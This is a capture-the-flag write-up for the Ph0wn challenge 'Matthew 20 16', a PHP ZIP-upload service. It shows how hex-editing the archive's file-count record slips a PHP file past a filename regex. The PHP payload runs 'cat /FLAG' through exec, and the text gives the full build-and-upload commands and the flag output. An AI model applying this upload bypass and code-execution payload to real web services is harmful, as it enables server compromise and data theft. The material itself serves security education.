

# Matthew 20 16 by Savino

This challenge was created by *Savino*. 

## Description

Pico said to them: those who are last now will be first then, and those who are first will be last

[http://chal.ph0wn.org:9920](http://chal.ph0wn.org:9920)

## Home page:

When you navigate to the challenge main page, you observe a picture of Pico and 3 sheets composing the work ZIP hanged with the clothes.

{ width=50% }

A closer look at the HTML page shows a very simple HTML with an unexpected description meta tag:

```html
<html>
<head>
<meta name="description" content="ZGlhZ3JhbS5qcGVn">
<title>Matthew 20:16</title>
<style>
...
```

This is base64:

```
$ echo "ZGlhZ3JhbS5qcGVn" | base64 -d
diagram.jpeg
```

If we navigate to `http://chal.ph0wn.org:9920/diagram.jpeg`, we can look at the diagram of the whole application.

## Flow

The first component of the application is listening for ZIP files (as also referenced in the picture of the home page).
Then, the code is verifying whether this ZIP file is small enough (we don't yet know what this means).
If this condition is successful, a new object is created by using the ZipArchive class.
From the syntax and from a quick research on the web, we can find that we are dealing with a PHP application.
Then, the app is looping on the numFiles attributes of the created ZIP. 
According to the PHP manual, this value refers to the `number of files in archive`.
What the app is doing is then checking each filename against the regex `/^[a-z]+$/`: basically, filenames inside the uploaded ZIP files must only contain letters (no dots or numbers or any other characters).
If all the conditions are satisfied, the content of the uploaded ZIP files is extracted with the unzip function and some info are printed.

## Challenge reconnaissance

Let's try to upload an archive with 2 pictures.

```
zip upload.zip ./file1.jpeg ./file2.jpeg
curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip
```

When uploading the files we receive the following message.

`<div class="error">Only small zips please</div>`

The code is producing an error and is asking for a smaller archive.
Thus, we are not bypassing the first check.
Let's upload a ZIP with 2 empty files:

```
touch a.empty
touch b.empty
zip upload.zip ./a.empty ./b.empty`
curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip
```

What we get as a response is:

`<div class="error">I don't like this file: a.empty</div>`

We are now hitting the second check with the regex on the filenames.
Let's try with two files that would match the regex:

```
touch a
touch b
zip upload.zip ./a ./b
curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip
```

We now see the upload is successful and a directory has been created for us:

`<div class="success">The following directory has been created for you 'uploads/0ea8592bfcdf33d75385a3da1bdb12e7'<br>Your files are inside</div>`

If we navigate:

`http://chal.ph0wn.org:9920/uploads/0ea8592bfcdf33d75385a3da1bdb12e7/a`

`http://chal.ph0wn.org:9920/uploads/0ea8592bfcdf33d75385a3da1bdb12e7/b`

Our files are there and we can see them.
How do we now get the flag in `/FLAG`? 

At this point, we know that is not possible to update a PHP file (or any other file with extensions that will be executed) with a simple upload.

## The bug

According to the [ZIP manual](https://en.wikipedia.org/wiki/ZIP_(file_format)), the `numFiles` parameter is a hard-coded record into the archive at creation time.
If one modifies that value such as to be lower than the actual number of files inside the archive, the script will only check that the FIRST filenames match the regex, while the LAST ones will not be checked. Nevertheless, in the last step when `unzip` is called, also the LAST files will be extracted and will be available to be executed.

## Getting the FLAG

Let's than create a PHP file that will allow us to read the `/FLAG` file. 
For example:

`cat secondfile.php` gives

```
<?php
$output=null;
$retval=null;
exec('cat /FLAG', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```
Then let's create an archive with a first empty file whose filename matches the regex and the php file above.

```
touch firstfile
zip upload.zip firstfile secondfile.php
```

Now with an hexadecimal editor, we modify the records in the zip file that indicate the number of files in the archive, setting that number to 1.

{ width=60% }

Let's upload the archive now.

`curl http://chal.ph0wn.org:9920/ -F zip=@upload.zip`

We get a successful response, from which we can read the directory that has been created for us:

`<div class="success">The following directory has been created for you 'uploads/0ea8592bfcdf33d75385a3da1bdb12e7'<br>Your files are inside</div>`

We can now navigate to our secondfile.php to read the flag:

```
$ curl http://chal.ph0wn.org:9920/uploads/0ea8592bfcdf33d75385a3da1bdb12e7/secondfile.php
Returned with status 0 and output:
Array
(
    [0] => ph0wn{S0_l4sT_fiL3s_n0w_wIlL_bE_tH3_fiRSt_th3n_AnD_WIll_b3_3x3cuTeD}
)
```

Flag is : `ph0wn{S0_l4sT_fiL3s_n0w_wIlL_bE_tH3_fiRSt_th3n_AnD_WIll_b3_3x3cuTeD}`

\newpage
